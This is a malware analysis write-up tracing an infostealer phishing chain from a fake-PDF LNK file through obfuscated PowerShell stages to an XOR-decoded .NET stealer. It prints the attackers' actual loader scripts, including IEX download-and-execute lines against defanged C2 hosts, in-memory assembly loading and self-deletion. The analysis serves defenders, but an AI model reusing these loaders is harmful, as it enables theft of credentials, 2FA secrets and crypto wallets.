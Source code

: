 ## Phishing for InfoStealers

I recently came across a site which hosts multiple zip archives masquerading as PDF documents. The aim is to distribute a second-stage PowerShell script which executes a .NET binary in memory. The binary collects system information and targets software such as web browsers, cryptocurrency wallets, two-factor authentication applications and gaming software.

The file is delivered to the victim via email, which prompts them to download and open the following file:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/a0451615-f6eb-40e0-85fd-891396665494)

A Zip archive is downloaded, which contains a Lnk file, masquerading with a PDF icon.

LNK Target Path (Defanged): 
```
C:\Windows\System32\msiexec.exe -package hxxPs[:/\]onedrive.live[.]com/download?cid=85B4181C5D4F7514&resid=58504D327740F380%21149&authkey=AIHrvoeE31NvUiI&.msi -qn
```

Upon execution, MsiExec would execute with the argument to download and execute a MSI file from the OneDrive URL provided.

This downloaded a file called "42WiseAnyConnect.msi", which we can extract a PowerShell script from using lessmsi:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/76fd615d-1298-47ac-bf25-a9e719da17d3)

PowerShell Script:
``` powershell
.(-join[char[]]((570-465),(266-165),(354-234)))(-join[char[]]((65678-399),(939-856),(959-858),(460-344),(618-573),(926-850),(700-589),(648-549),(283-186),(223-107),(596-491),(1006-895),(308-198),(440-408),(1038-971),(614-556),(332-240),(417-330),(826-721),(849-739),(734-634),(782-671),(619-500),(468-353),(309-217)(466-382),(787-686),(775-666),(724-612),(347-255),(933-846),(972-867),(959-849),(1063-963),(810-699),(897-778),(265-150),(611-544),(1077-963),(321-224),(421-306),(906-802),(528-452),(878-767),(927-824),(423-308),(543-497),(789-679),(1001-948),(960-845),(526-404),(924-838),(784-683),(867-747),(640-588),(361-305),(971-857),(590-535),(616-533),(967-910),(192-122),(656-589),(370-288),(548-450),(783-726),(943-865),(647-578),(226-159),(592-475),(323-313),(400-390),(929-893),(315-227),(883-763),(888-800),(411-324),(520-446),(625-554),(754-648),(775-695),(554-435),(346-226),(370-305),(235-203),(535-474),(633-601),(871-826),(675-569),(389-278),(353-248),(989-879),(725-634),(657-558),(262-158),(387-290),(524-410),(384-293),(860-767),(780-687),(638-598),(149-109),(349-292),(1049-996),(1008-960),(573-528),(480-424),(310-257),(914-863),(929-888),(243-199),(757-717),(945-888),(899-845),(987-935),(474-429),(731-675),(570-516),(859-805),(478-437),(812-768),(914-874),(858-802),(168-118),(560-512),(465-420),(950-895),(603-553),(910-861),(996-955),(966-922),(876-836),(362-313),(595-547),(766-710),(709-653),(906-861),(492-435),(949-893),(696-640),(824-783),(365-321),(611-571),(433-378),(722-668),(608-551),(924-879),(688-634),(726-672),(168-112),(283-242),(566-522),(1015-975),(822-765),(937-886),(995-943),(725-680),(329-273),(430-379),(422-372),(333-292),(463-419),(179-139),(752-703),(1039-991),(277-220),(410-354),(380-335),(443-386),(1052-995),(580-527),(537-496),(519-475),(862-822),(651-594),(441-393),(979-924),(349-304),(229-173),(430-382),(564-513),(970-929),(858-814),(208-168),(1010-958),(646-594),(555-503),(833-788),(349-298),(487-436),(722-665),(290-249),(706-662),(271-231),(596-542),(260-212),(209-161),(837-792),(423-371),(961-904),(442-390),(647-606),(434-390),(161-121),(370-320),(823-771),(541-492),(1041-996),(348-299),(245-194),(887-835),(504-463),(828-784),(334-294),(730-674),(187-132),(1044-989),(639-594),(295-240),(813-759),(1006-949),(731-690),(714-670),(619-579),(422-370),(770-718),(753-699),(220-175),(262-211),(343-292),(820-765),(177-136),(494-450),(583-543),(889-839),(479-424),(997-949),(441-396),(561-512),(458-404),(304-256),(607-566),(952-908),(836-796),(437-385),(531-477),(875-819),(828-783),(900-849),(698-645),(470-415),(527-486),(988-944),(161-121),(408-356),(238-182),(478-428),(281-236),(214-163),(496-441),(216-168),(1006-965),(244-200),(428-388),(161-112),(349-301),(1035-983),(248-193),(649-604),(163-106),(966-915),(287-235),(927-886),(778-734),(869-829),(468-416),(480-427),(1017-967),(150-105),(1051-1000),(1009-958),(367-311),(397-356),(685-641),(583-543),(643-588),(641-590),(463-414),(778-733),(323-269),(189-140),(653-599),(572-531),(162-118),(157-117),(471-421),(705-650),(757-700),(793-748),(814-765),(297-243),(473-422),(536-495),(600-556),(916-876),(494-440),(1037-981),(314-261),(997-952)
(1014-961),(268-214),(178-122),(238-197),(485-441),(707-667),(726-669),(311-260),(461-409),(612-567),(941-885),(261-212),(734-680),(518-477),(438-394),(854-814),(987-933),(939-890),(429-373),(633-588),(231-179),(1018-961),(577-520),(303-262),(167-123),(362-322),(308-258),(502-450),(256-207),(527-482),(631-582),(808-758),(948-899),(686-645),(282-238),(186-146),(774-725),(776-728),(209-156),(813-760),(475-430),(415-358),(571-520),(626-574),(750-709),(650-606),(508-468),(793-744),(684-636),(700-649),(427-371),(873-828),(994-937),(243-194),(202-148),(950-909),(253-209),(344-304),(488-433),(745-693),(253-203),(755-710),(220-166),(224-169),(486-431),(224-183),(993-949),(906-866),(216-163),(922-873),(699-646),(927-882),(1040-988),(547-495),(222-165),(879-838),(1043-999),(207-167),(988-939),(891-836),(217-164),(198-153),(673-624),(904-856),(381-325),(185-144),(200-156),(363-323),(428-372),(739-686),(552-498),(205-160),(908-853),(879-823),(601-545),(529-488),(1037-993),(744-704),(167-118),(158-110),(271-222),(359-304),(816-771),(218-161),(254-202),(560-504),(506-465),(469-425),(503-463),(468-411),(420-372),(354-304),(229-184),(969-913),(200-149),(759-709),(283-242),(503-459),(442-402),(523-467),(939-890),(283-229),(521-476),(186-131),(563-511),(918-865),(153-112),(163-119),(335-295),(406-354),(1049-998),(1045-989),(1043-998),(578-527),(380-326),(593-539),(454-413),(393-349),(640-600),(353-304),(332-284),(414-365),(1038-987),(162-117),(1035-978),(1029-977),(697-649),(442-401),(692-648),(202-162),(753-701),(660-609),(988-933),(194-149),(922-871),(744-690),(922-871),(287-246),(612-568),(643-603),(799-748),(736-681),(679-631),(906-861),(586-536),(730-673),(620-567),(284-243),(166-122),(737-697),(645-593),(170-115),(253-196),(696-651),(845-793),(991-943),(309-258),(1029-988),(370-326),(322-282),(315-263),(803-753),(297-245),(494-449),(778-727),(918-866),(457-402),(409-368),(528-484),(425-385),(459-407),(719-666),(205-150),(972-927),(970-919),(249-194),(1024-967),(570-529),(481-437),(683-643),(731-681),(301-247),(300-250),(424-379),(302-253),(876-820),(293-242),(528-487),(373-329),(213-173),(585-534),(919-866),(956-906),(409-364),(868-818),(474-419),(424-374),(654-613),(848-804),(209-169),(270-215),(204-155),(992-942),(963-918),(548-494),(760-709),(428-379),(148-107),(153-109),(466-426),(648-593),(468-413),(898-845),(235-190),(788-734),(438-381),(1030-979),(366-325),(251-207),(725-685),(1039-985),(727-679),(748-699),(879-834),(559-506),(552-503),(900-844),(262-221),(1025-981),(463-423),(498-447),(393-337),(630-578),(877-832),(177-126),(456-408),(591-543),(702-661),(682-638),(241-201),(605-548),(825-772),(479-428),(575-530),(376-320),(326-272),(283-227),(671-630),(1012-968),(313-273),(497-443),(498-442),(613-556),(876-831),(458-404),(496-448),(858-807),(750-709),(353-309),(847-807),(1016-961),(312-257),(655-598),(190-145),(284-230),(366-309),(711-661),(318-277),(633-589),(321-281),(322-265),(604-551),(419-371),(379-334),(281-225),(981-927),(587-537),(721-680),(852-808),(305-265),(229-175),(838-790),(543-491),(597-552),(371-318),(580-531),(166-113),(427-386),(799-755),(589-549),(859-807),(429-374),(516-465),(533-488),(978
927),(380-324),(850-799),(936-895),(460-416),(190-150),(166-117),(822-774),(589-537),(913-857),(637-592),(593-536),(271-214),(759-702),(598-557),(245-201),(765-725),(926-874),(857-802),(519-463),(990-945),(444-392),(634-584),(649-593),(471-430),(174-130),(557-517),(263-214),(832-778),(540-485),(785-740),(289-240),(241-192),(328-274),(591-550),(309-265),(719-679),(559-502),(553-499),(975-919),(568-523),(181-124),(580-531),(274-220),(523-482),(527-483),(207-167),(556-504),(520-470),(551-502),(402-357),(583-532),(545-491),(1035-979),(291-250),(948-904),(751-711),(600-544),(939-891),(761-713),(420-375),(1013-958),(804-752),(507-453),(331-290),(196-152),(151-111),(624-570),(895-844),(705-655),(622-577),(225-172),(398-343),(437-382),(496-455),(618-574),(255-215),(930-877),(208-157),(260-210),(808-763),(270-218),(445-390),(512-458),(247-206),(834-790),(203-163),(829-773),(807-751),(639-585),(882-837),(537-481),(841-791),(446-389),(640-599),(422-378),(770-730),(816-762),(291-235),(221-171),(751-706),(551-497),(164-113),(165-113),(400-359),(854-813),(757-747),(424-388),(236-157),(976-899),(842-774),(656-586),(299-196),(477-370),(649-566),(479-404),(644-540),(347-243),(843-740),(871-772),(261-229),(956-895),(706-674),(774-734),(703-654),(693-647),(286-240),(752-703),(331-281),(897-865),(923-799),(413-381),(490-420),(410-299),(624-510),(204-135),(579-482),(393-294),(276-172),(178-133),(1029-950),(377-279),(1073-967),(258-157),(974-875),(397-281),(540-508),(529-406),(476-444),(188-117),(502-401),(1084-968),(515-470),(708-626),(543-446),(954-844),(430-330),(638-527),(519-410),(915-883),(641-596),(216-143),(871-761),(472-360),(738-621),(969-853),(774-695),(526-428),(616-510),(705-604),(517-418),(873-757),(642-610),(1012-976),(903-815),(278-158),(573-485),(457-370),(703-629),(687-616),(907-801),(393-313),(322-203),(269-149),(593-528),(262-216),(1014-930),(391-280),(174-107),(877-773),(335-238),(315-201),(633-568),(869-755),(216-102),(555-458),(386-265),(887-847),(911-870),(138-106),(313-188),(315-274),(383-373),(232-222),(892-856),(1024-939),(226-152),(370-267),(676-594),(804-696),(595-498),(808-739),(1063-986),(996-913),(361-329),(275-214),(612-580),(389-318),(1091-990),(480-364),(589-544),(1034-952),(402-305),(759-649),(974-874),(918-807),(1072-963),(877-845),(558-513),(691-614),(721-616),(519-409),(550-445),(803-694),(619-502),(925-816),(560-528),(303-254),(830-778),(781-749),(779-734),(476-399),(611-514),(796-676),(968-863),(628-519),(538-421),(863-754),(498-466),(656-599),(1028-978),(747-737),(357-274),(424-308),(536-439),(567-453),(289-173),(821-776),(273-190),(285-177),(1000-899),(1019-918),(416-304),(864-832),(834-789),(721-638),(383-282),(224-125),(492-381),(347-237),(430-330),(1103-988),(510-478),(976-940),(745-660),(444-370),(272-169),(320-238),(472-364),(205-108),(432-363),(855-778),(685-602),(909-899),(402-366),(539-473),(853-781),(485-363),(592-527),(541-420),(341-276),(609-538),(897-808),(1075-976),(135-103),(427-366),(153-121),(940-895),(721-615),(785-674),(533-428),(896-786),(202-111),(1084-985),(437-333),(838-741),(238-124),(936-845),(666-573),(767-674),(893-853),(146-106),(422-368),(1026-976),(964-915),(707
662),(926-873),(474-425),(630-575),(849-808),(725-681),(809-769),(824-767),(192-136),(727-674),(800-755),(582-526),(173-119),(337-280),(660-619),(555-511),(873-833),(324-272),(877-824),(496-447),(981-936),(826-775),(494-443),(661-608),(749-708),(663-619),(240-200),(970-921),(284-236),(863-813),(539-487),(395-350),(599-542),(532-483),(322-272),(269-228),(649-605),(829-789),(932-880),(305-252),(744-693),(613-568),(382-331),(474-417),(939-886),(580-539),(657-613),(891-851),(790-736),(953-896),(877-822),(666-621),(696-642),(530-477),(906-858),(664-623),(473-429),(203-163),(869-812),(617-565),(752-696),(863-818),(530-473),(273-225),(385-336),(497-456),(211-167),(162-122),(745-690),(812-764),(375-324),(204-159),(1036-982),(505-452),(457-405),(860-819),(190-146),(574-534),(694-644),(209-156),(372-319),(1006-961),(325-275),(196-148),(347-297),(163-122),(899-855),(1033-993),(225-170),(683-634),(256-204),(200-155),(1047-993),(613-559),(389-337),(562-521),(760-716),(789-749),(186-132),(506-450),(882-827),(242-197),(1008-954),(835-783),(644-595),(213-172),(462-418),(207-167),(1045-991),(606-550),(839-782),(931-886),(266-212),(556-505),(708-657),(415-374),(345-301),(625-585),(416-367),(349-292),(1015-963),(326-281),(403-354),(989-938),(901-846),(422-381),(824-780),(179-139),(165-110),(321-270),(517-460),(898-853),(414-360),(256-199),(308-257),(703-662),(410-366),(448-408),(660-610),(590-539),(530-477),(225-180),(800-751),(353-297),(240-186),(548-507),(200-156),(873-833),(806-753),(339-285),(313-259),(429-384),(513-460),(561-513),(178-121),(627-586),(615-571),(537-497),(427-370),(1012-956),(412-360),(412-367),(265-208),(157-107),(599-543),(934-893),(526-482),(371-331),(697-640),(571-523),(882-828),(457-412),(818-762),(421-367),(495-447),(187-146),(267-223),(520-480),(360-306),(452-395),(874-821),(462-417),(693-639),(158-106),(587-534),(815-774),(730-686),(722-682),(400-346),(226-177),(610-556),(891-846),(1027-974),(689-635),(711-657),(840-799),(220-176),(1014-974),(518-466),(508-459),(575-518),(157-112),(631-580),(307-253),(202-150),(877-836),(768-724),(609-569),(733-676),(596-548),(980-923),(829-784),(398-342),(646-593),(363-314),(944-903),(464-420),(344-304),(647-591),(785-731),(391-339),(975-930),(714-658),(308-259),(828-779),(646-605),(821-777),(812-772),(267-210),(1036-981),(720-664),(727-682),(428-371),(338-287),(861-813),(629-588),(209-165),(855-815),(413-361),(244-196),(636-587),(161-116),(952-901),(920-867),(230-179),(948-907),(434-390),(870-830),(177-127),(458-408),(528-472),(902-857),(210-161),(1024-968),(677-629),(184-143),(731-687),(348-308),(911-862),(287-239),(471-423),(870-815),(582-537),(442-385),(868-814),(361-313),(534-493),(1012-971),(574-564),(494-458),(948-867),(875-795),(630-508),(939-853),(908-806),(650-584),(876-797),(930-841),(604-497),(490-458),(1045-984),(644-612),(701-665),(572-506),(905-833),(520-398),(792-727),(638-517),(806-741),(633-562),(454-365),(713-614),(564-532),(222-179),(425-393),(325-289),(343-264),(549-472),(299-231),(827-757),(353-250),(806-699),(577-494),(965-890),(205-101),(504-400),(865-762),(550-451),(815-805),(721-685),(442-330),(196-108),(575-493),(508-392),(548-434),(1051
981),(416-346),(807-702),(814-724),(1055-981),(1062-940),(778-692),(273-241),(641-580),(746-714),(687-616),(794-693),(969-853),(247-202),(406-324),(1022-925),(921-811),(770-670),(751-640),(626-517),(574-542),(172-127),(993-916),(752-647),(725-615),(725-620),(679-570),(496-379),(877-768),(263-231),(442-392),(234-183),(509-477),(207-162),(794-717),(264-167),(977-857),(335-230),(223-114),(648-531),(482-373),(1000-968),(455-399),(373-324),(797-787),(960-877),(954-838),(239-142),(430-316),(497-381),(504-459),(231-148),(980-872),(494-393),(746-645),(774-662),(999-967),(971-926),(1017-934),(697-596),(932-833),(565-454),(366-256),(920-820),(800-685),(702-670),(166-130),(1078-966),(211-123),(1050-968),(358-242),(430-316),(1031-961),(261-191),(1067-962),(277-187),(199-125),(646-524),(808-722),(294-284),(369-359),(278-242),(334-212),(362-272),(1032-912),(476-397),(441-355),(942-823),(1009-944),(374-273),(568-536),(488-427),(956-924),(492-419),(1051-941),(1097-979),(321-210),(645-538),(1004-903),(1034-989),(602-515),(380-279),(643-545),(677-595),(366-265),(701-588),(691-574),(534-433),(1018-903),(436-320),(151-119),(553-508),(941-856),(576-461),(428-327),(975-909),(288-191),(686-571),(392-287),(756-657),(1064-984),(203-106),(672-558),(543-428),(602-497),(491-381),(369-266),(167-135),(672-627),(512-427),(583-469),(278-173),(1014-982),(411-375),(548-467),(690-610),(474-352),(582-496),(630-528),(699-633),(502-423),(238-149),(213-106),(723-713),(950-914),(337-248),(508-438),(624-558),(738-668),(650-530),(230-147),(801-695),(796-729),(745-643),(675-565),(937-870),(490-458),(657-596),(483-451),(651-560),(777-694),(509-388),(1110-995),(740-624),(745-644),(360-251),(366-320),(290-206),(568-467),(340-220),(229-113),(760-714),(230-161),(228-118),(237-138),(978-867),(251-151),(814-709),(1004-894),(387-284),(839-746),(516-458),(729-671),(378-293),(452-368),(968-898),(752-696),(739-693),(281-210),(1064-963),(239-123),(467-384),(348-232),(247-133),(627-522),(1030-920),(452-349),(910-870),(598-562),(937-815),(468-378),(476-356),(199-120),(602-516),(644-525),(210-145),(731-630),(758-712),(689-622),(670-559),(290-180),(670-554),(966-865),(304-194),(1042-926),(511-470),(348-338),(375-365),(753-680),(586-476),(944-826),(420-309),(562-455),(299-198),(293-248),(842-773),(560-440),(914-802),(403-289),(782-681),(1043-928),(551-436),(979-874),(1068-957),(813-703),(830-798),(280-235),(464-397),(1038-927),(835-726),(846-737),(664-567),(547-437),(775-675),(736-704),(725-689),(642-553),(309-239),(425-359),(393-323),(992-872),(277-194),(342-236),(571-504),(734-632),(1062-952),(993-926),(447-437),(630-620),(234-151),(825-709),(406-309),(912-798),(286-170),(379-334),(413-330),(723-615),(1011-910),(636-535),(227-115),(815-783),(151-106),(900-817),(686-585),(668-569),(1107-996),(476-366),(796-696),(335-220),(357-325),(839-785),(573-525),(911-863),(125-115),(785-775),(579-497),(498-397),(594-485),(613-502),(945-827),(578-477),(177-132),(576-503),(623-507),(788-687),(406-297),(408-376),(512-467),(315-235),(670-573),(478-362),(466-362),(834-802),(609-573),(928-848),(501-418),(330-263),(796-685),(323-214),(286-177),(841-744),(291-181),(555-455),(409-329),(271
174),(649-533),(717-613),(927-895),(559-514),(746-676),(1087-976),(683-569),(839-740),(1092-991)))
```

We can deobfuscate this simply by using an echo command before the command block, which gives us the following:

``` powershell
.
iex
﻿Set-Location C:\Windows\Temp\WindowsCrashLogs.n5szVex48r7S9FCRb9NECu

$XxXWJGjPwxA = -join[char[]]((950-853),(964-866),(820-721),(1088-988),(769-668),(934-832),(1098-995),(907-803),(444-339),(600-494),(241-134),(877-769),(446-337),(270-160),(468-357),(482-370),(1047-934),(452-338),(731-616),(279-163),(685-568),(934-816),(618-499),(241-121),(1055-934),(1038-916),(742-677),(515-449),(175-108),(856-788),(1017-948),(902-832),(816-745),(438-366),(1013-940),(437-363),(370-295),(479-403),(424-347),(457-379),(262-183),(352-272),(712-631),(775-693),(601-518),(384-300),(953-868),(689-603),(779-692),(950-862),(604-515),(473-383),(1048-999),(478-428),(167-116),(968-916),(421-368),(800-746),(632-577),(532-476),(886-829),(682-634))
$OMDFgkSKhhgc = (1..12 | ForEach-Object { Get-Random -InputObject $XxXWJGjPwxA.ToCharArray() })

$UJgRlaEMS = Get-Random -Minimum 14 -Maximum 92
Start-Sleep -Seconds $UJgRlaEMS
$BHzAyAGYc = -join[char[]]((621-517),(985-869),(451-335),(1024-912),(453-395),(697-650),(948-901),(703-654),(255-202),(714-664),(687-641),(689-633),(194-137),(739-693),(235-186),(566-509),(984-928),(906-860),(695-645),(616-566),(419-364),(909-851),(864-811),(978-930),(401-353),(228-180),(1007-960))
$QPzVfBOYk = $BHzAyAGYc + $OMDFgkSKhhgc
$pXRtrFFiZJzV = Get-Random -Minimum 23 -Maximum 81
Start-Sleep -Seconds $pXRtrFFiZJzV

$zZxOVwAe = Invoke-WebRequest -UseBasicParsing -Uri $QPzVfBOYk
$YFBFxSjCfnC = [System.Text.Encoding]::UTF8.GetString($zZxOVwAe.Content)

Invoke-Expression -Command $YFBFxSjCfnC

Start-Sleep -Seconds 600

Remove-Item -Path $PSCommandPath -Force
```

We can work out the variables using a similar method, we'll echo the join[char] string, and convert the output from decimal to ASCII.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/116468c3-948a-4dee-bb3d-bf702d0ee877)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/f33f098b-ad0c-4fb0-9e85-f624dd3db7e5)



[-] $XxXWJGjPwxA = abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890

[-] $BHzAyAGYc = hxxp[://]152.89.198[.]227:5000/

Essentially the script is downloading and executing the content from the IP:Port above, with a random 12-character string URI

The script which lives there is the following:

``` powershell
Set-Location C:\Windows\Temp\WindowsCrashLogs.n5szVex48r7S9FCRb9NECu

$rnd = Get-Random -Minimum 13 -Maximum 91
Start-Sleep -Seconds $rnd

$randomFunctions = @(
    { return [math]::Pi * (Get-Random -Minimum 0 -Maximum 100) },
    { return [guid]::NewGuid().ToString() },
    { return Get-Random -Minimum 0 -Maximum 100 }
)

$randomFunction = Get-Random -InputObject $randomFunctions`

try {
    $dotNetVersion = (Get-Command 'dotnet').Version.Major
    if ($dotNetVersion -ge 4) {
        Write-Host "Installed Version .NET Runtime: $dotNetVersion"
        Start-Process -FilePath "powershell" -ArgumentList "-Command IEX(Invoke-WebRequest -UseBasicParsing 'hxxps[://]www.fuchs.com[.]sd/media/media/js/ap4.ps1')" -NoNewWindow
    } else {
        Write-Host "$randomValue"
        Start-Process -FilePath "powershell" -ArgumentList "-Command IEX(Invoke-WebRequest -UseBasicParsing 'hxxps[://]www.fuchs.com[.]sd/media/media/js/ap2.ps1')" -NoNewWindow
    }
} catch {
    Write-Host "$randomValue"
    Start-Process -FilePath "powershell" -ArgumentList "-Command IEX(Invoke-WebRequest -UseBasicParsing 'hxxps[://]www.fuchs.com[.]sd/media/media/js/ap2.ps1')" -NoNewWindow
}

$rnd2 = Get-Random -Minimum 12 -Maximum 73
Start-Sleep -Seconds $rnd2


Remove-Item $PSCommandPath -Force

```

The main takeaway from this is that the script checks the .NET version of the victim host, the outcome of which decides which script will be executed.

Next stage:

``` powershell
[byte[]] $binary = (Long Byte Arary)

# [Net.ServicePointManager]::SecurityProtocol +='tls12'
$guid = (Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Cryptography).MachineGuid
$config = (new-object net.webclient).downloadstring("hxxp[://]45.129.199[.]204/index.php?id=$guid&subid=ezzcAvVW").Split('|')
$k = $config[0];

for ($i = 0; $i -lt $binary.Length ; ++$i)
{
	$binary[$i] = $binary[$i] -bxor $k[$i % $k.Length]
}

$sm = [System.Reflection.Assembly]::Load($binary)
$ep = $sm.EntryPoint


$ep.Invoke($null, (, [string[]] ($config[1], $config[2], $config[3])))
```
The following actions are performed by the script:

[-] Retrieves the MachineGuid from the Windows registry: $guid = (Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Cryptography).MachineGuid

[-] Retrieves 3 values from 'hxxp[://]45.129.199[.]204/index.php?id=$guid&subid=ezzcAvVW' and assigns them to the $config array.

[-] Performs a bitwise XOR operation (-bxor) on the binary array with the first value.

[-] Loads the binary data as a .NET assembly using [System.Reflection.Assembly]::Load($binary).

[-] Accessing the entry point of the loaded assembly: $ep = $sm.EntryPoint.

[-] Invokes the entry point of the assembly with the three values: $ep.Invoke($null, (, [string[]] ($config[1], $config[2], $config[3]))).

The values are as follows:

zpsoJEKDxaCoTLVurobI|ezzcAvVW|hxxp[://]45.129.199[.]204/index.php|

We know that the first value is the XOR key, so we can use this to retrieve the binary from the byte array using CyberChef.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/50343d38-5655-4491-b786-f72712eb31ee)

The binary can be reviewed in DNSpy as it is a .NET binary, however, it is extremely obfuscated as it has been protected with ConfuserEx.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c2fa5c5d-54e7-4874-a240-20168cd6fbc8)

Therefore, we will take the dynamic approach.

To be able to execute this binary without an internet connection, I've hardcoded the config and changed the C2 address to localhost.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/98544282-3be6-407d-a28b-183801d7e5e8)

Upon execution, we can see POST requests are sent to the hardcoded C2 address
```
POST /index.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 86407
Expect: 100-continue
Connection: Keep-Alive
```

Investigating with ProcMon we see the file events we would expect from an infostealer, touching files which contain sensitive information such as credentials, and extensions associated with 2FA, password management and crypto wallets.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/5844ee7d-47ec-405d-a61a-e0f26c1de989)







